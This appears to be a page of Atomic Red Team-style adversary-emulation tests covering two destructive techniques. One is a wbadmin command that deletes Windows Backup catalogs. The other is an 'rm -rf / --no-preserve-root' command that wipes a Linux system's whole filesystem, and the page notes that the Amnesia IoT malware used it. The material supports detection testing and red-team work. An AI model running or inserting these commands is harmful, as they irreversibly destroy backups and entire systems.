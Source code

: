 

<br/>
<br/>

## Atomic Test #11 - wbadmin
This test deletes Windows Backup catalogs. 

**Supported Platforms:** Windows


#### Run it with `command_prompt`! ```
wbadmin delete catalog -quiet
```



<br/>
<br/>

## Atomic Test #12 - Delete Filesystem - Linux
This test deletes the entire root filesystem of a Linux system. This technique was used by Amnesia IoT malware to avoid analysis. This test is dangerous and destructive, do NOT use on production equipment.

**Supported Platforms:** Linux, CentOS, Ubuntu


#### Run it with `bash`! ```
rm -rf / --no-preserve-root > /dev/null 2> /dev/null
```



<br/>

